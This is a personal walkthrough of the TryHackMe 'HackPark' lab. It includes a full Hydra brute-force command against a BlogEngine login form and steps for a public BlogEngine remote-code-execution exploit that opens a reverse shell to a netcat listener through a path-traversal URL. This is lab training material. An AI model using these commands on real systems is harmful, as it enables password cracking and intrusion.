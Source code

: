 # THM-HackPark
https://tryhackme.com/room/hackpark

I did this as a part of the Offensive Pentesting Learning Path

## Task 1
### Whats the name of the clown displayed on the homepage?
Open the ip adress in a browser.<br>
Download the image of the clown and use Google to serch for that image.

## Task 2
### What request type is the Windows website login form using?
Use Developer Tools and Network Display to see what type of request the form is making.

### Guess a username, choose a password wordlist and gain credentials to a user account!
The server is using Blog Engine, and the default can be found on [there server](https://blogengine.io)<br>
Now use Burp Suite to se what´s sent during logon to http://IP.ad.dr.es/admin<br>
All new for me was the VIEWSTATE= part used during login.<br>
Copy VIEWSTATE and make a Hydra password attack command<br>
I used:<br>
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.19.178 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=97hlUt22e85aQD6CzwY82BVD9mqEeUj7nT8LT5JU%2B%2BHqmx9hzpOsGUGR91TmR1nxGBEc%2BXbGEY5jnb9IKCpEz3Bglz1KZRTTKnK3CGBpxgvWG5XvUReWcC4sWXOKtf8%2BLnAVFpfWtjjuSo%2B2xtGjDmeM1dYU1jcO4yYRw9viAzEkYuYj&__EVENTVALIDATION=BrCmhMtOml%2FrMjoO4%2F6vd%2FMu2F494JfLYNvR4pgYfFAnV4tn53%2FQCuTdGS3fLwNE%2F1IPWuy1PeHKg2N1AUtiYffQYrtYHZoRLEYUsCj9PnBUB7yLFz8JOV6qIyYJVALgjx8rWK7eXPE9fFkUWC6NeNdq322T%2B6G8dezO855lYGCZFepG&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -vv

(hydra -l user -P wordlist IP_ADDR http-post-form-type login-URI-and-return-Url "VIEWSTATE" modify UserName=^USER^ and Password=^PASS^, end with "error command" and -vv (verbose))

login: admin   password: 1qa*****

## Task 3
### Now you have logged into the website, are you able to identify the version of the BlogEngine?
Login to the admin panel and click About to find the version.
### What is the CVE?
Search for BlogEngine 3.3.6 using Exploit-db<br>
Look for a Remote Code Execution
###Using the public exploit, gain initial access to the server.
Download the exploit and save it as PostView.ascx.<br>
Change System.Net.Sockets.TcpClient("10.10.10.20", 4445) to mach the IP & Port you use in NC.
Run nc -lvnp 4445 on you attackbox<br>
Upload the PostView.ascx-file to the blog by opening a blog entry, click the foder icon and upload the file.<br>
Then run the exploit by accessing this url: http://IP_ADDR/?theme=../../App_Data/files<br>
Now there should be a connection to you nc.

### Who is the webserver running as?
run whoami in the reverse shell console

